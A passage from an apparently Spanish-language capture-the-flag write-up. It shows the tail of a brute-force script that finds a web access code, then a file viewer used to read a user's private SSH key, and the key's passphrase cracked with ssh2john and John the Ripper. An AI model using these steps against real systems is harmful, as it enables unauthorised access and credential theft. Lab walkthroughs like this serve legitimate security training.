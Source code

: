```python
			print(code)
if __name__=='__main__':
	send_code()
```

Ejecutamos el script y esperamos unos minutos para encontrar el código.

```python
❯ python3 fuzzing.py
[▝] Data Code: : Validando Code: 1990
1835

```

Al ingresar el código valido, la web nos redijera a un panel donde se hace búsquedas de archivos y visualizarlos.

![20231209124025.png](20231209124025.png)

Enumeraremos los usuarios del sistema haciendo uso de los buscadores y encontraremos con el usuario `jason` que en directorio `/home/jason/.ssh/id_rsa`. Este `id_rsa` esta encriptado, para encontrar el la contraseña del `id_rsa` haremos uso de `ssh2john`

```php
/home/jason/.ssh/id_rsa
❯ ssh2john id_rsa > hash
```

Teniendo el hash, procederemos a crackear este con John The Ripper para obtener la contraseña.

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1a2b3c4d         (id_rsa)     
1g 0:00:00:00 DONE (2023-12-09 12:46) 7.142g/s 35885p/s 35885c/s 35885C/s christina1..dumnezeu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
